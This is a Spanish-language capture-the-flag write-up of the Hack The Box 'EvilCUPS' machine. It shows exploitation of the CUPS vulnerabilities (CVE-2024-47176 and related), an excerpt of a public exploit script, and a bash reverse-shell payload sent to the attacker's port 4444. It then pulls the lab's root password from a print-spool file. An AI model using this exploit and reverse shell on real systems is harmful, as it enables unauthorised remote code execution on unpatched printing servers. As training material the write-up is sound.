





>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)

PD: Al no disponer de acceso a la maquina a la hora de hacer el writeup de la misma, no pude documentar casi ningun comando, por lo que si se ve alguna cosa que no parezca de mi parte, fue tomado de capturas, o comandos de otros writeups.
{: .prompt-info }

EvilCups es una maquina de la plataforma de [HTB](https://app.hackthebox.com/machines/EvilCUPS) de dificultad media en la cual se tocan diversos temas interesantes, sobre todo uno que me llamo la atencion que lo llamaria "Pentesting sobre redes", ya que estamos en un entorno el cual simula que tenemos acceso a una impresora, y debemos comprometerla al mas estilo CTF (Capture The Flag) "Boot2Root". La maquina presenta una vulnerabilidad de "Command Injection" sobre el [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176), la cual permite que usuarios no autenticados puedan instalar impresoras maliciosas que conduzcan a la ejecucion de codigo de manera remota sobre el puerto UDP/63. Esta impresora está configurada para utilizar Foomatic-RIP, que se utiliza para procesar documentos y donde se produce la inyección de comandos. Para activar la ejecución del comando, es necesario imprimir un documento. El servidor web CUPS está configurado para permitir el acceso de usuarios anónimos a TCP/631. Al navegar por aquí, es posible imprimir una página de prueba en la impresora maliciosa y obtener acceso como usuario "Ip". Este usuario tiene la capacidad de recuperar trabajos de impresión anteriores, uno de los cuales contiene la contraseña de root de la caja.

-- -
## Nmap

Empezando con un escaneo simple, tenemos los siguientes puertos TCP habilitados:

```bash
peter@LetMeHere$ nmap -p- --min-rate 10000 10.10.11.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 11:24 EDT
Nmap scan report for 10.10.11.40
Host is up (0.089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
peter@LetMeHere$ nmap -p 22,631 -sCV 10.10.11.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 11:24 EDT
Nmap scan report for 10.10.11.40
Host is up (0.088s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.10 seconds
```

Al solo disponer de dos, y por el resultado de la version del SSH, deducimos que el objetivo a atacar de trata de un Debian Linux, y al ser este de una version reciente, pues no disponemos de exploits para la misma. Sin embargo, del lado del puerto 631, tenemos que se trata de un servicio HTTP con el nombre de CUPS. Entrando al mismo vemos lo siguiente:



Vemos que la web corre el servicio de impresiones CUPS en su version 2.4.2, y el copyright menciona que fue agregado en eso del 2021-2022 (Esto es de sumo interes ya que incluso por el copyright, podemos buscar exploits de dicho año para el servicio que atacamos, esto lo podemos aplicar de forma independiente en cualquier tarea de pentesting). Revisando el lado de "Printers", vemos lo siguiente:



Y si entramos al nombre de la impresora:



La página de la impresora muestra las opciones para administrarla (Sin estar autenticados)

Por si fuera poco, a lo ultimo de la pagina no hay trabajos de impresiones activos, pero si completados como se muestra aqui:



Ahora, si intentamos acceder al apartado de "Administration" vemos esto:


Claro porque al no disponer de credenciales, no podemos hacer mucho

-- -

## Some information about our target

El 26 de septiembre de 2024, un investigador de ciberseguridad conocido como **evilsocket** publicó los resultados de varias vulnerabilidades en el Sistema Común de Impresión UNIX (**CUPS**), revelando posibles riesgos de explotación remota. Estos hallazgos, publicados poco antes del parche **EvilCups**, identificaron cuatro CVE críticos que afectaban a componentes de la arquitectura CUPS, los cuales, en conjunto, podían permitir la ejecución remota de comandos en determinadas condiciones.

A continuación se detallan las vulnerabilidades:

- **CVE-2024–47176**: Esta vulnerabilidad afecta a `cups-browsed`, un servicio que normalmente escucha en el puerto **UDP 631** en todas las interfaces de red para permitir la detección y configuración de impresoras. Al explotar este fallo, un atacante podría enviar una solicitud IPP (_Internet Printing Protocol_) «Get-Printer-Attributes» diseñada a una URL que controle, lo que provocaría una solicitud no deseada desde el sistema de destino. Esta falla se mitigó desactivando `cups-browsed`, ya que su funcionalidad ahora se considera obsoleta.
    
- **CVE-2024–47076**: Este problema se encuentra en `libcupsfilters`, que maneja los atributos IPP entrantes y los escribe en un archivo temporal de descripción de impresora Postscript (**PPD**). Sin embargo, debido a una desinfección inadecuada, se podrían escribir atributos maliciosos en este archivo temporal. Un atacante podría manipular el contenido del archivo para ejecutar código arbitrario.
    
- **CVE-2024–47175**: Ubicada en `libppd`, esta vulnerabilidad surge cuando `libppd` lee archivos PPD temporales para crear o configurar objetos de impresora en el sistema. Debido a que no se validan correctamente las directivas dentro del archivo, un atacante puede inyectar comandos de shell que se ejecutan cuando se procesa un trabajo de impresión.

-- -

## Shell as Ip

### Create Evil Printer

Basicamente, el creador de la maquina [ippsec](https://app.hackthebox.com/users/3769), creo un [exploit](https://github.com/ippsec/evil-cups) el cual basicamente trabaja sobre la vulnerabilidad del **CVE-2024-47176**, que registra una impresora maliciosa, la cual si la mandamos a imprimir una pagina de prueba, pues basicamente podriamos tener RCE (Remote Code Execution), aqui el codigo:

```python
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = sys.argv[3]

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))

    threading.Thread(
        target=run_server,
        args=(server, )
    ).start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    print("Please wait this normally takes 30 seconds...")

    seconds = 0
    while True:
        print(f"\r{seconds} elapsed", end="", flush=True)
        time.sleep(1)
        seconds += 1
```

Perfecto, como vemos, es una sintaxis bastante sencilla y facil de usar, sin embargo tambien es bastante peligrosa por la vulnerabilidad en si, probando el codigo contra el objetivo tenemos esto (siendo este el payload a usar):

```bash
python evil-cups.py 10.10.14.6 <ATTAKER> 'bash -c "bash -i >& /dev/tcp/(OUR IP)/4444 0>&1"'
```

Dandonos como resultado esto:

```bash
IPP Server Listening on ('10.10.14.6', 12345)
Sending udp packet <ATTACKER>:631...
Please wait this normally takes 30 seconds...
2 elapsed 
```

Haciendo que basicamente, el servicio de impresiones ejecute el payload que nosotros le mandamos, a su vez que se comunica con nosotros como impresora legitima (la cual administramos nosotros)

Este enfoque evita que el shell se cierre cada 5-10 minutos cuando la impresora se bloquea por no ser un dispositivo legítimo y, posteriormente, se limpia (debido al script de limpieza que cada maquina de htb tiene).

Durante la ejecución, hay una pausa en la que se indica que tardará 30 segundos en responder, con una cuenta atrás. Tras 29 segundos, el objetivo se conecta y se entrega la carga útil de la impresora como se mostro.

Para este entonces, la impresora que agregamos deberia de aparecer en el panel tal como se ve aqui:



Ahora si bien sabemos tambien, todo panel, debe tener una opcion para imprimir una pagina de prueba, ahora que pasa si mandamos esa solicitud? Tendemos esto:

```bash
peter@LetMeHere$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.40 56432
bash: cannot set terminal process group (1358): Inappropriate ioctl for device
bash: no job control in this shell
lp@evilcups:/$
```

Tenemos shell en el servidor linux, porque no en la impresora? Pese a que la impresora ejecuta de igual modo un sistema basado en linux, este no es capaz de enviar una consola interactiva, por lo cual quien hace esa funcion es el servidor detras, osea, estamos usando la impresora como puente basicamente. Sobre el porque vemos al usuario lp sin ser este un usuario de el servidor, es porque el sistema no permite loguearse como `lp` legítimamente (vía `SSH` o `su`), pero cuando ejecutamos el exploit, el proceso de CUPS (que corre bajo el contexto del usuario `lp`) genera el subproceso de la reverse shell, heredando los permisos de dicho usuario. Es basicamente lo mismo que si tenemos una reverse shell bajo el contexto de www-data. Es un usuario del sistema que corre los procesos web, mas sin embargo no se le es permitido loguearse o cambiar a dicho usuario, asi que basicamente serian las cuentas de servicio de linux (con la diferencia de que en Windows server / Active Directory, si podemos loguearnos como dichas cuentas).

Ahora si nos dirijimos a `/home/htb` tendremos la primera flag como se ve aqui:

```bash
lp@evilcups:/home/htb$ cat user.txt
2a7bfa97************************
```

## Shell as Root

Enumerando los usuarios del sistema, vemos que solo existe uno, el cual es el ya mencionado `htb`, mas sin embargo, nuestro usuario actual `ip`, tiene lo que serian los permisos suficientes para navegar, crear y editar archivos dentro de la carpeta de dicho usuario. Esto lo confirmamos con los siguientes comandos:

(Para verificar permisos):

```bash
lp@evilcups:/home$ ls -l
total 4
drwxrwx--- 3 htb lp 4096 Sep 30 13:04 htb
```

(Para verificar mas usuarios):

```bash
lp@evilcups:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb,,,:/home/htb:/bin/bash
```

Y por si fuera poco, tenemos nuestro propio home, siendo el mismo ubicado en `/var/spool/cups/tmp` el cual esta mas vacio que la nevera de mi casa:

```bash
lp@evilcups:~$ ls -la
total 8
drwxrwx--T 2 root lp 4096 Sep 30 13:21 .
drwx--x--- 3 root lp 4096 Sep 30 13:21 ..
-rw------- 1 lp   lp    0 Sep 30 11:50 cups-dbus-notifier-lockfile
```

Sin embargo, no podemos leer lo que seria, "nuestra" carpeta como se ve aqui:

```bash
lp@evilcups:/var/spool$ ls -ld cups
drwx--x--- 3 root lp 4096 Sep 30 13:21 cups
```

lo que indica que no podremos hacer mucho, pero sin embargo si podemos leer los archivos, esto lo sabemos por lo que se vera a continuacion:

Si investigamos, los trabajos de impresiones se guardan justo en esta carpeta, por lo cual tenemos lectura mas no enumeracion o **Directory Listing**, por lo cual, necesitamos saber el formato correcto para atinar con el archivo que necesitamos. Usemos la primera tarea como ejemplo, ahora necesitamos saber la "formula" en la cual se guardan estos archivos. En la documentacion oficial, se menciona que los archivos se guardan en el siguiente formato:

```
d<print job>-<page number>
```

y el trabajo de impresión debe tener 5 dígitos y el campo de página 3 dígitos. Para el trabajo 1, página 1, el nombre del archivo sería d00001-001. El nombre consta de dos partes: datos del trabajo e instancia del trabajo. Si hacemos ahora un cat a este archivo, tenemos esto como resultado:


```bash
lp@evilcups:/var/spool/cups$ cat d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
%%DocumentMedia: A4 595 842 0 () ()
%%DocumentNeededResources: (atend)
%%EndComments
%%BeginProlog
%%BeginResource: procset Enscript-Prolog 1.6.5 90
%
% Procedures.
%

/_S {   % save current state
  /_s save def
} def
/_R {   % restore from saved state
  _s restore
} def

/S {    % showpage protecting gstate
  gsave
  showpage
  grestore
} bind def

/MF {   % fontname newfontname -> -     make a new encoded font
  /newfontname exch def
  /fontname exch def

  /fontdict fontname findfont def
  /newfont fontdict maxlength dict def

  fontdict {
    exch
    dup /FID eq {
      % skip FID pair
      pop pop
    } {
      % copy to the new font dictionary
      exch newfont 3 1 roll put
    } ifelse
  } forall

  newfont /FontName newfontname put

  % insert only valid encoding vectors
  encoding_vector length 256 eq {
    newfont /Encoding encoding_vector put
  } if

  newfontname newfont definefont pop
} def

/MF_PS { % fontname newfontname -> -    make a new font preserving its enc
  /newfontname exch def
  /fontname exch def

  /fontdict fontname findfont def
  /newfont fontdict maxlength dict def

  fontdict {
    exch
    dup /FID eq {
      % skip FID pair
      pop pop
    } {
      % copy to the new font dictionary
      exch newfont 3 1 roll put
    } ifelse
  } forall

  newfont /FontName newfontname put

  newfontname newfont definefont pop
} def

/SF { % fontname width height -> -      set a new font
  /height exch def
  /width exch def

  findfont
  [width 0 0 height 0 0] makefont setfont
} def

/SUF { % fontname width height -> -     set a new user font
  /height exch def
  /width exch def

  /F-gs-user-font MF
  /F-gs-user-font width height SF
} def

/SUF_PS { % fontname width height -> -  set a new user font preserving its enc
  /height exch def
  /width exch def

  /F-gs-user-font MF_PS
  /F-gs-user-font width height SF
} def

/M {moveto} bind def
/s {show} bind def

/Box {  % x y w h -> -                  define box path
  /d_h exch def /d_w exch def /d_y exch def /d_x exch def
  d_x d_y  moveto
  d_w 0 rlineto
  0 d_h rlineto
  d_w neg 0 rlineto
  closepath
} def

/bgs {  % x y height blskip gray str -> -       show string with bg color
  /str exch def
  /gray exch def
  /blskip exch def
  /height exch def
  /y exch def
  /x exch def

  gsave
    x y blskip sub str stringwidth pop height Box
    gray setgray
    fill
  grestore
  x y M str s
} def

/bgcs { % x y height blskip red green blue str -> -  show string with bg color
  /str exch def
  /blue exch def
  /green exch def
  /red exch def
  /blskip exch def
  /height exch def
  /y exch def
  /x exch def

  gsave
    x y blskip sub str stringwidth pop height Box
    red green blue setrgbcolor
    fill
  grestore
  x y M str s
} def

% Highlight bars.
/highlight_bars {       % nlines lineheight output_y_margin gray -> -
  gsave
    setgray
    /ymarg exch def
    /lineheight exch def
    /nlines exch def

    % This 2 is just a magic number to sync highlight lines to text.
    0 d_header_y ymarg sub 2 sub translate

    /cw d_output_w cols div def
    /nrows d_output_h ymarg 2 mul sub lineheight div cvi def

    % for each column
    0 1 cols 1 sub {
      cw mul /xp exch def

      % for each rows
      0 1 nrows 1 sub {
        /rn exch def
        rn lineheight mul neg /yp exch def
        rn nlines idiv 2 mod 0 eq {
          % Draw highlight bar.  4 is just a magic indentation.
          xp 4 add yp cw 8 sub lineheight neg Box fill
        } if
      } for
    } for

  grestore
} def

% Line highlight bar.
/line_highlight {       % x y width height gray -> -
  gsave
    /gray exch def
    Box gray setgray fill
  grestore
} def

% Column separator lines.
/column_lines {
  gsave
    .1 setlinewidth
    0 d_footer_h translate
    /cw d_output_w cols div def
    1 1 cols 1 sub {
      cw mul 0 moveto
      0 d_output_h rlineto stroke
    } for
  grestore
} def

% Column borders.
/column_borders {
  gsave
    .1 setlinewidth
    0 d_footer_h moveto
    0 d_output_h rlineto
    d_output_w 0 rlineto
    0 d_output_h neg rlineto
    closepath stroke
  grestore
} def

% Do the actual underlay drawing
/draw_underlay {
  ul_style 0 eq {
    ul_str true charpath stroke
  } {
    ul_str show
  } ifelse
} def

% Underlay
/underlay {     % - -> -
  gsave
    0 d_page_h translate
    d_page_h neg d_page_w atan rotate

    ul_gray setgray
    ul_font setfont
    /dw d_page_h dup mul d_page_w dup mul add sqrt def
    ul_str stringwidth pop dw exch sub 2 div ul_h_ptsize -2 div moveto
    draw_underlay
  grestore
} def

/user_underlay {        % - -> -
  gsave
    ul_x ul_y translate
    ul_angle rotate
    ul_gray setgray
    ul_font setfont
    0 0 ul_h_ptsize 2 div sub moveto
    draw_underlay
  grestore
} def

% Page prefeed
/page_prefeed {         % bool -> -
  statusdict /prefeed known {
    statusdict exch /prefeed exch put
  } {
    pop
  } ifelse
} def

% Wrapped line markers
/wrapped_line_mark {    % x y charwith charheight type -> -
  /type exch def
  /h exch def
  /w exch def
  /y exch def
  /x exch def

  type 2 eq {
    % Black boxes (like TeX does)
    gsave
      0 setlinewidth
      x w 4 div add y M
      0 h rlineto w 2 div 0 rlineto 0 h neg rlineto
      closepath fill
    grestore
  } {
    type 3 eq {
      % Small arrows
      gsave
        .2 setlinewidth
        x w 2 div add y h 2 div add M
        w 4 div 0 rlineto
        x w 4 div add y lineto stroke

        x w 4 div add w 8 div add y h 4 div add M
        x w 4 div add y lineto
        w 4 div h 8 div rlineto stroke
      grestore
    } {
      % do nothing
    } ifelse
  } ifelse
} def

% EPSF import.

/BeginEPSF {
  /b4_Inc_state save def                % Save state for cleanup
  /dict_count countdictstack def        % Count objects on dict stack
  /op_count count 1 sub def             % Count objects on operand stack
  userdict begin
  /showpage { } def
  0 setgray 0 setlinecap
  1 setlinewidth 0 setlinejoin
  10 setmiterlimit [ ] 0 setdash newpath
  /languagelevel where {
    pop languagelevel
    1 ne {
      false setstrokeadjust false setoverprint
    } if
  } if
} bind def

/EndEPSF {
  count op_count sub { pos } repeat     % Clean up stacks
  countdictstack dict_count sub { end } repeat
  b4_Inc_state restore
} bind def

% Check PostScript language level.
/languagelevel where {
  pop /gs_languagelevel languagelevel def
} {
  /gs_languagelevel 1 def
} ifelse
%%EndResource
%%BeginResource: procset Enscript-Encoding-88591 1.6.5 90
/encoding_vector [
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/space          /exclam         /quotedbl       /numbersign
/dollar         /percent        /ampersand      /quoteright
/parenleft      /parenright     /asterisk       /plus
/comma          /hyphen         /period         /slash
/zero           /one            /two            /three
/four           /five           /six            /seven
/eight          /nine           /colon          /semicolon
/less           /equal          /greater        /question
/at             /A              /B              /C
/D              /E              /F              /G
/H              /I              /J              /K
/L              /M              /N              /O
/P              /Q              /R              /S
/T              /U              /V              /W
/X              /Y              /Z              /bracketleft
/backslash      /bracketright   /asciicircum    /underscore
/quoteleft      /a              /b              /c
/d              /e              /f              /g
/h              /i              /j              /k
/l              /m              /n              /o
/p              /q              /r              /s
/t              /u              /v              /w
/x              /y              /z              /braceleft
/bar            /braceright     /tilde          /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/.notdef        /.notdef        /.notdef        /.notdef
/space          /exclamdown     /cent           /sterling
/currency       /yen            /brokenbar      /section
/dieresis       /copyright      /ordfeminine    /guillemotleft
/logicalnot     /hyphen         /registered     /macron
/degree         /plusminus      /twosuperior    /threesuperior
/acute          /mu             /paragraph      /bullet
/cedilla        /onesuperior    /ordmasculine   /guillemotright
/onequarter     /onehalf        /threequarters  /questiondown
/Agrave         /Aacute         /Acircumflex    /Atilde
/Adieresis      /Aring          /AE             /Ccedilla
/Egrave         /Eacute         /Ecircumflex    /Edieresis
/Igrave         /Iacute         /Icircumflex    /Idieresis
/Eth            /Ntilde         /Ograve         /Oacute
/Ocircumflex    /Otilde         /Odieresis      /multiply
/Oslash         /Ugrave         /Uacute         /Ucircumflex
/Udieresis      /Yacute         /Thorn          /germandbls
/agrave         /aacute         /acircumflex    /atilde
/adieresis      /aring          /ae             /ccedilla
/egrave         /eacute         /ecircumflex    /edieresis
/igrave         /iacute         /icircumflex    /idieresis
/eth            /ntilde         /ograve         /oacute
/ocircumflex    /otilde         /odieresis      /divide
/oslash         /ugrave         /uacute         /ucircumflex
/udieresis      /yacute         /thorn          /ydieresis
] def
%%EndResource
%%EndProlog
%%BeginSetup
%%IncludeResource: font Courier-Bold
%%IncludeResource: font Courier
/HFpt_w 10 def
/HFpt_h 10 def
/Courier-Bold /HF-gs-font MF
/HF /HF-gs-font findfont [HFpt_w 0 0 HFpt_h 0 0] makefont def
/Courier /F-gs-font MF
/F-gs-font 10 10 SF
/#copies 1 def
% Pagedevice definitions:
gs_languagelevel 1 gt {
  <<
    /PageSize [595 842]
  >> setpagedevice
} if
%%BeginResource: procset Enscript-Header-simple 1.6.5 90

/do_header {    % print default simple header
  gsave
    d_header_x d_header_y HFpt_h 3 div add translate

    HF setfont
    user_header_p {
      5 0 moveto user_header_left_str show

      d_header_w user_header_center_str stringwidth pop sub 2 div
      0 moveto user_header_center_str show

      d_header_w user_header_right_str stringwidth pop sub 5 sub
      0 moveto user_header_right_str show
    } {
      5 0 moveto fname show
      45 0 rmoveto fmodstr show
      45 0 rmoveto pagenumstr show
    } ifelse

  grestore
} def
%%EndResource
/d_page_w 559 def
/d_page_h 770 def
/d_header_x 0 def
/d_header_y 755 def
/d_header_w 559 def
/d_header_h 15 def
/d_footer_x 0 def
/d_footer_y 0 def
/d_footer_w 559 def
/d_footer_h 0 def
/d_output_w 559 def
/d_output_h 755 def
/cols 1 def
%%EndSetup
%%Page: (1) 1
%%BeginPageSetup
_S
18 36 translate
/pagenum 1 def
/fname (pass.txt) def
/fdir (.) def
/ftail (pass.txt) def
% User defined strings:
/fmodstr (Sat Sep 28 09:30:10 2024) def
/pagenumstr (1) def
/user_header_p false def
/user_footer_p false def
%%EndPageSetup
do_header
5 742 M
(Br3@k-G!@ss-r00t-evilcups) s
_R
S
%%Trailer
%%Pages: 1
%%DocumentNeededResources: font Courier-Bold Courier
%%EOF
```

Y como podemos ver, tenemos la pass de root que es `Br3@k-G!@ss-r00t-evilcups`, ahora es simplemente escalar con su y leer la flag:

```bash
lp@evilcups:/var/spool/cups$ su -
Password: 
root@evilcups:~#
```

Y leemos la flag de root:

```bash
root@evilcups:~# cat root.txt
0cd5ff62************************
```

Y asi de sencillo comprometimos el servidor, gracias por leerme :)